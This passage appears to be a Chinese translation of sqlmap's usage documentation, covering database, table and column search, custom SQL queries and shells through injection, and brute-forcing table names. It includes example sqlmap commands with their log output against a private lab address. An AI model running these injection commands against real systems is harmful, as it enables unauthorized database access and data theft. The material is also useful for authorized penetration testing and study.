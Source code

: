 参数：`--search,-C,-T,-D`

`--search`可以用来寻找特定的数据库名，所有数据库中的特定表名，所有数据库表中的特定字段。

可以在一下三种情况下使用：

`-C`后跟着用逗号分割的列名，将会在所有数据库表中搜索指定的列名。
`-T`后跟着用逗号分割的表名，将会在所有数据库中搜索指定的表名
`-D`后跟着用逗号分割的库名，将会在所有数据库中搜索指定的库名。

运行自定义的SQL语句

参数：`--sql-query,--sql-shell`

sqlmap会自动检测确定使用哪种SQL注入技术，如何插入检索语句。

如果是SELECT查询语句，sqlap将会输出结果。如果是通过SQL注入执行其他语句，需要测试是否支持多语句执行SQL语句。

列举一个Mircrosoft SQL Server 2000的例子：
```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/mssql/get_int.php?id=1" --sql-query "SELECT 'foo'" -v 1

[...]
[hh:mm:14] [INFO] fetching SQL SELECT query output: 'SELECT 'foo''
[hh:mm:14] [INFO] retrieved: foo
SELECT 'foo':    'foo'

$ python sqlmap.py -u "http://192.168.136.131/sqlmap/mssql/get_int.php?id=1" --sql-query "SELECT 'foo', 'bar'" -v 2

[...]
[hh:mm:50] [INFO] fetching SQL SELECT query output: 'SELECT 'foo', 'bar''
[hh:mm:50] [INFO] the SQL query provided has more than a field. sqlmap will now unpack it into 
distinct queries to be able to retrieve the output even if we are going blind
[hh:mm:50] [DEBUG] query: SELECT ISNULL(CAST((CHAR(102)+CHAR(111)+CHAR(111)) AS VARCHAR(8000)), 
(CHAR(32)))
[hh:mm:50] [INFO] retrieved: foo
[hh:mm:50] [DEBUG] performed 27 queries in 0 seconds
[hh:mm:50] [DEBUG] query: SELECT ISNULL(CAST((CHAR(98)+CHAR(97)+CHAR(114)) AS VARCHAR(8000)), 
(CHAR(32)))
[hh:mm:50] [INFO] retrieved: bar
[hh:mm:50] [DEBUG] performed 27 queries in 0 seconds
SELECT 'foo', 'bar':    'foo, bar'
```
爆破
暴力破解表名

参数：`--common-tables`

当使用`--tables`无法获取到数据库的表时，可以使用此参数。

通常是如下情况：

1、MySQL数据库版本小于5.0，没有information_schema表。
2、数据库是Microssoft Access，系统表MSysObjects是不可读的（默认）。
3、当前用户没有权限读取系统中保存数据结构的表的权限。
